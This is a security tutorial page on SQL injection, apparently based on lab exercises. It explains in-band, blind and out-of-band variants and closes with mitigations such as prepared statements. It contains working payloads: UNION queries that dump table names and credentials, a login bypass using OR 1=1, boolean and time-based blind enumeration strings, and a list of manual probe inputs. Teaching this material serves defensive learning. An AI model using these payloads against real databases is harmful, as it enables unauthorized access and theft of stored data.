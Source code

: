 # SQL Injection

SQL Injection (SQLi) is a type of attack on web applications. It happens when an application uses unvalidated user input to interact with a database. This can allow attackers to access, modify, or delete sensitive data. They might also bypass authentication to access private areas. SQLi is an old but highly damaging vulnerability.

## SQLi Types

### In-Band SQLi

In-Band SQL Injection is easy to find and exploit. It uses the same communication method to attack and get results. For example, you can discover an SQL Injection flaw on a website and extract database data to the same page.

<details>

<summary>Error-Based SQL Injection</summary>

SQL Injection exploits can reveal database details by displaying error messages directly in the browser, useful for mapping the database.

</details>

<details>

<summary>Union-Based SQL Injection</summary>

This SQL Injection technique uses the UNION operator with a SELECT statement to show more data on a web page. It's a common method to extract large amounts of data through an SQL Injection vulnerability.

{% code overflow="wrap" %}
```sql
# get error to enumerate the db
1 UNION SELECT 1

# get current db
0 UNION SELECT 1,2,database()

# get database tables
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'shop'

# get columns name of a table
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

# get data from a table
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
{% endcode %}

</details>

### Blind SQLi

Blind SQL injection differs from In-Band SQL injection because it doesn't show results directly on the screen. In Blind SQLi, we receive little to no feedback because error messages are turned off. However, the injection still functions, and even a tiny bit of feedback can help us gather information from the entire database.

<details>

<summary>Authentication Bypass</summary>

Blind SQL Injection is often used to bypass login forms. Here, the goal isn't to retrieve data from the database but simply to gain access by bypassing authentication.

Get a scenario where we have a Login page with Username and Password. The query should be this:

```sql
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

Insert the payload bellow into the Password field can allow us to ignore the password check and access without insert the correct password.

```sql
# payload in password field
' OR 1=1;-- '

# query changed into this
select * from users where username='' and password='' OR 1=1;
```

{% hint style="info" %}
Using `1=1` in a query with an **OR** operator always returns true. This tricks the web application into thinking a username/password match is found, allowing access.
{% endhint %}

</details>

<details>

<summary>Boolean Based</summary>

Boolean-based SQL Injection involves using true/false responses from injection attempts to determine success. Although it may seem limited, these responses can help reveal the entire database structure and its contents.

Using the function LIKE we can find out the letters of a Database, Table, Column and Data Row.

For example we have a API endpoint that return True/Falso if a user exists and the parameter is vulnerable to SQLi. Abusing of this parameter we can obtain all information to dump the DB.

{% code overflow="wrap" %}
```sql
# try any chars to find DB name
admin123' UNION SELECT 1,2,3 where database() like 's%';--    '

# try any chars to find tables name
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--         '

# try any chars to find columns name        
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';     '

# check for some existing user   
admin123' UNION SELECT 1,2,3 from users where username like 'a%

# check for the correct password of found users
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```
{% endcode %}

</details>

<details>

<summary>Time-Based</summary>

Time-based blind SQL injection is similar to boolean-based injection, but there are no visual signs to check if your queries are correct. Instead, you determine success by the time taken for the query to complete. This is often done by using the **`SLEEP(x)`** function with a `UNION` statement. The `SLEEP()` function runs only when a `UNION SELECT` statement is successful.

<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong># try SLEEP function to test SQLi
</strong><strong>mario' UNION SELECT SLEEP(5),2,3;--    
</strong><strong>
</strong><strong># repeat the Boolean-Based SQLi enumeration process to find out db informations 
</strong>admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--         '

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

admin123' UNION SELECT SLEEP(5),2 from users where username like 'a%

admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like 'a%
</code></pre>

</details>

<details>

<summary>Out-of-Band SQLi</summary>



Out-of-band SQL Injection is not very common because it relies on certain database features or specific logic in a web application that makes external network requests based on SQL query results.

This type of attack uses two communication channels: one to execute the attack and another to receive the results. For example, the attack channel might be a web request, while the data collection channel could involve monitoring HTTP or DNS requests to a server you control.

Here's how it works:

1. An attacker sends a request with a malicious SQL payload to a vulnerable website.
2. The website processes the SQL query, including the attacker's payload, with the database.
3. The payload triggers the server to send an HTTP request back to the attacker containing sensitive data from the database.

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>



## Testing for SQLi

Testers should find app features where users can enter data, which may impact the database. For each feature found, testers must test for vulnerabilities by using harmful strings and values.

### Vulnerable input recon

Using special characters in SQL inputs like `'`, `"`, `#`, `;`, `)`, `*`, and `%` can cause SQL errors, sometimes visible to users. This can show that the inputs aren't properly sanitized, making them vulnerable to SQL injection.

For every payload do not forget to try url encoding or others.

### Manual Test

Try this payloads below for each input in the web app. Tools like Burp can help us to do this.

{% code title="Request" %}
```javascript
/page?id=PAYLOAD
```
{% endcode %}

{% code title="Manual Payloads" %}
```
id=1
id=1'
id=1"
id=[1]
id[]=1
id=1`
id=1\
id=1/**/
id=1/*!111'*/
id=1' or '1'='1
id=1 or 1=1
id=' or ''='
id=' OR 1 -- -
id=1' or 1=1 --
id=1' or 1=1 -- -
id=1' or 1=1 /*
id='='
```
{% endcode %}



### Automatic Tools

{% content-ref url="../../../../../tools/web-tools/sqlmap.md" %}
[sqlmap.md](../../../../../tools/web-tools/sqlmap.md)
{% endcontent-ref %}



## Mitigations

SQL Injection vulnerabilities can seriously impact web applications. However, developers can safeguard their applications by following these practices:

#### 1. Use Prepared Statements

In prepared statements, the SQL query is written first and user inputs are added as parameters later. This approach ensures the SQL code remains unchanged, allowing the database to differentiate between the query and the data. This also makes your code cleaner and easier to read.

#### 2. Validate Input

Input validation protects SQL queries by controlling what is entered. Using an allow list restricts input to acceptable strings. Alternatively, a string replacement method can filter allowed and disallowed characters.

#### 3. Escape User Input

Allowing characters like `'`, `"`, `$`, and `\` can cause SQL queries to break or open them to attacks. Escaping user input involves adding a backslash (`\\`) before these characters, treating them as regular strings rather than special characters.

